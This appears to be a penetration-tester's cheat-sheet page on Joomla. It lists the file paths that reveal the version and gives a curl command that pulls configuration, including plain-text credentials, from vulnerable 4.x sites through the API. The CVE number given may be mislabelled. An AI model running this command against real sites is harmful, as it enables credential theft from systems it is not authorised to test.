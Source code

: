 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
### <mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

